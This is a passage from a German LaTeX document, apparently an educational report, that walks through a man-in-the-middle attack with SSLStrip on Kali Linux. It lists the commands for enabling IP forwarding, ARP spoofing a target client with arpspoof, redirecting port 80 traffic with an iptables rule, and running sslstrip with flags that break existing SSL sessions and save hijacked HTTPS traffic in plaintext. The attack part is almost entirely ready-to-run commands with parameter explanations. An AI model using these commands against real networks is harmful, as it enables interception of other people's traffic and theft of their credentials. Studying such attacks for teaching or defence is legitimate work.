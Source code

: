 \subsubsection*{Tools}
Um SSLStrip einsetzen zu können sind mehrere Schritte notwendig. Auf Kali Linux 2.0 sind alle benötigten Tools bereits vorinstalliert. \\

IP-Forwarding, also das Weiterleiten von IP-Paketen, kann durch folgende Befehle aktiviert werden:\\

\begin{lstlisting}[caption=Aktivieren von IP-Forwarding]{Name}
	sysctl -w net.ipv4.ip_forward=1
	alternativ: echo 1 > /proc/sys/net/ipv4/ip_forward
\end{lstlisting}
	

Anschließend wird ARP-Spoofing gestartet. Dies geschieht mit folgenden Befehlen:
\begin{lstlisting}[caption=Parameter für ARP-Spoofing]
arpspoof -i <interface> -t <targetIP> <gatewayIP>
Parameter:
	-i  <interface>		Angabe des Interfaces, in dem sich Angreifer und Client befinden.
	-t <targetIP>   	IP-Adresse des anzugreifenden Clients
	<gatewayIP>   		IP-Adresse des Gateways im LAN
\end{lstlisting}

Nachdem nun mittels ARP-Spoofing alle IP-Pakete vom angegriffenen Client über den Angreifer gesendet werden, müssen die umgeleiteten HTTP-Pakete via IPtables an das Tool SSLStrip weitergereicht werden. Dies geschieht mittels folgendem Eintrag:\\

\begin{lstlisting}[caption=Eintrag in IP-Tables damit HTTP-Pakete an sslstrip weitergereicht werden]
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <listenPort>
Parameter:
	-t nat                 	: Firewall-Gruppe
	-A PREROUTING          	: Regel wird angewandt, BEVOR Paket geroutet wird
	-p tcp                 	: Nur TCP-Pakete
	--destination-port 80  	: Nur Pakete auf Port 80 (http)
	-j REDIRECT            	: Legt Aktion fest, also Weiterleitung
	--to-port <listenPort> 	: Port auf dem SSLStrip lauscht.
\end{lstlisting}


Nun muss noch SSLStrip selbst gestartet werden. Dies geschieht mittels folgender Eingabe:
\begin{lstlisting}[caption=Erforderliche Parameter für SSLStrip]
sslstrip -a -k -l <listenPort> -w <logpath>
Parameter:
	-s : Gesamter SSL Traffic wird gelogged
	-p : Nur SSL POST Traffic wird protokolliert
	-a : SSL- und HTTP-Traffic wird aufgezeichnet
	-k : Bestehende SSL-Verbindungen terminieren, damit diese neu aufgebaut werden
	-l : Port auf dem SSLStrip lauscht. Muss identisch zu --to-port bei iptables-Eintrag sein
	-w : Pfad in dem gehijackter HTTPS-Traffic im Klartext abgespeichert wird
\end{lstlisting}
	

